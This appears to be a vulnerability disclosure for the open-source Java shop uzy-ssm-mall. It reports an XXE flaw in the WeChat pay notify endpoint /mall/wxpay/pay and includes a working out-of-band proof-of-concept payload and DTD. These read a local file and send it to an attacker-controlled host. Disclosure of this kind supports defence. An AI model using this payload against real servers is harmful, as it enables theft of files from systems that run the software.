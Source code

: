 # There is a XXE vulnerability in **[uzy-ssm-mall](https://github.com/ghostxbh/uzy-ssm-mall)**. An attacker can register an arbitrary ordinary user to exploit this vulnerability.

path：/mall/wxpay/pay

com.uzykj.mall.controller.ForeWeixinPayController#weixin_notify() directly parses the request body into XML：

![image-20250905185322795](./images/image-20250905185322795.png)

com.uzykj.mall.util.pay.wx.util.WxpayUtil#doXMLParse() method does not disable external entities when performing XML parsing：

![image-20250905185347533](./images/image-20250905185347533.png)

No print poc：

```javap
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM 'http://192.168.32.128:8162/evil.dtd'>
    %xd;
]>
<root>&bbbb;</root>
```

evil.dtd content：

```javap
<!ENTITY % aaaa SYSTEM "file:///D:/CodeAudit/uzy-ssm-mall-master/uzy-ssm-mall-master/1.txt">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM 'http://192.168.32.128:8172?file=%aaaa;'>">
%demo;
```

1.txt file contents：

![image-20250905185409062](./images/image-20250905185409062.png)

test：

![image-20250905185423648](./images/image-20250905185423648.png)

![image-20250905185514652](./images/image-20250905185514652.png)

![image-20250905185547006](./images/image-20250905185547006.png)

Read file successfully。

